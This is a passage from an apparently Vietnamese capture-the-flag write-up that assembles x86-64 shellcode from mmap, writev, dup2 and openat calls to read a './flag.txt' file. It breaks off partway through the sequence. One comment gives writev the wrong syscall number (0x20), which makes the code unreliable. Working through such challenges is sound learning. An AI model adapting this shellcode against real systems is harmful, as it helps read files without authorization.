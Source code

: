 - nó sẽ như sau:
```cs
mov rax,9
mov rsi,0x100
mov rdi,0
mov rdx,1
mov r10,2
mov r8,0x3e9
mov r9,0
syscall
```

- cuối cùng là ```writev``` 


```cs
unsigned long fd, const struct iovec *vec, unsigned long vlen
```

giải thích cái ```struct``` 

![here](/assets/images/writev.png)

- vậy nó sẽ trông như sau : 

```cs
mov rsi,rax // rax chứa buffer trả về 
mov r9,0x100  // iov_len
push r9
push rsi
mov rdx,1 // 1 struct
mov rdi,0x3e9 // fd
mov rsi,rsp
mov rax,0x20 //syscall number
```

- ghép tất cả lại =)))

```cs
//dup2
mov rax,0x21
mov rdi,1
mov rsi,0x3e9
syscall

//openatopenat
mov rax,0x101  // syscall number
mov rdx,29816  // setup tx
push rdx
movabs rsi,8371742425456455470 // ./flag.t little endian
push rsi
xor rdx,rdx
xor rsi,rsi
```
